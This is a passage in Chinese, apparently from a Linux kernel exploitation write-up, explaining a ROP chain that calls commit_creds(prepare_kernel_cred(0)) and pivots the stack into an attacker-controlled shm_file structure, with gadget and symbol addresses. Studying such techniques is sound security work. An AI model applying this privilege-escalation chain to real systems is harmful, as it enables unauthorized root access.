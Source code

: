 0x05 ROP & 栈移植
=====

构造ROP来调用

```
commit_creds(prepare_kernel_cred(0);

```

通过cat /proc/kallsyms得到符号表之后，可以定位prepare_kernel_cred和commit_creds的地址：

*   C1082B60 T commit_creds
*   C1082E20 T prepare_kernel_cred

只有prepare_kernel_cred(0)需要一个参数，传进去。看了下prepare_kernel_cred函数的汇编，这个参数用eax传递。所以需要一条

```
pop eax
ret

```

或者是

```
xor eax,eax
ret

```

prepare_kernel_cred的返回值，会直接传给commit_creds，并不用在rop链里构造。那么初步的应该是这样子：

| instruction | addr |
| :-- | --: |
| pop eax;ret; | 0xc1431272 |
| perpare_kernel_creds; | 0xc1082e20 |
| commit_cred; | 0xc1082b60 |

问题来了：

rop链，首先要写到栈里面去，问题是如何写。

![Alt text](http://drops.javaweb.org/uploads/images/c973ec176c153604d8b7e82625459919fffa45f1.jpg)

最后获得控制流之前，eax 是内核堆上的地址，是shmid_kerneld的shm_file，里面的内容我们可以控制。ecx是伪造的fop表地址，我们可以完全控制。不好往栈里头写数据，不妨把栈给移植到能控制的地方来。

于是我第一次找的**xchg ecx,esp**这样的指令。但是一执行，系统就崩了。具体原因，本人猜测应该是内核栈esp不能指向用户空间。具体什么原因，也没深究。

所以第二次，我找的**xchg eax,esp；ret 0x100**这样的指令。因为eax是shmid_file，还在内核空间，而其后面的数据都可以通过write控制，也就相当于能控制栈。还不用改写shmid_file，只用在shmid_file头4个字节写上**pop eax;ret;**的地址，xchg之后的ret能顺利执行就OK了。

```
memcpy(buf+0x180,rop,4);
//rop[0] = 0xc1431272 ;
//pop eax 
//ret

```
